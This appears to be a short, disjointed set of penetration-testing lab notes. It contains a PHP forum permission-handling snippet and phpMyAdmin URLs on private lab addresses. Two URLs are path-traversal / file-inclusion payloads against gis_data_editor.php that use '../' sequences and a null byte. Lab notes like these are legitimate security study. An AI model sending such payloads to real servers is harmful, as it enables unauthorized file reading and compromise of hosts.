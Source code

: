  elseif($action == 'grouppermission') {

	require_once './include/forum.func.php';
	require_once language('misc');
	$permlang = $language;
	unset($language);
	
	$searchgroupid = isset($searchgroupid) ? intval($searchgroupid) : $groupid;
	$groups = $grouplist = array();
	$query = $db->query("SELECT groupid, type, grouptitle, radminid FROM {$tablepre}usergroups ORDER BY (creditshigher<>'0' || creditslower<>'0'), creditslower");
	$cgdata = $nextgid = '';

定义一个数组groupids，遍历gid









http://172.16.12.114/pentest/cve/phpmyadmin/index.php?db=&table=&server=1&target=&token=85e48a1bf8bdfb8a35131ef6ced0dc56#PMAURL-0:index.php?db=&table=&server=1&target=&token=85e48a1bf8bdfb8a35131ef6ced0dc56





http://192.168.6.128/pentest/cve/phpmyadmin/gis_data_editor.php?token=4a29dda3c4ec2e7b9deee7f42b90e1b8&gis_data[gis_type]=/../../../password%00



gis_data_editor.php?token=4a29dda3c4ec2e7b9deee7f42b90e1b8&gis_data[gis_type]=/../../../phpinfo%00


![image-20220302115147186](C:/Users/LanT34m/AppData/Roaming/Typora/typora-user-images/image-20220302115147186.png)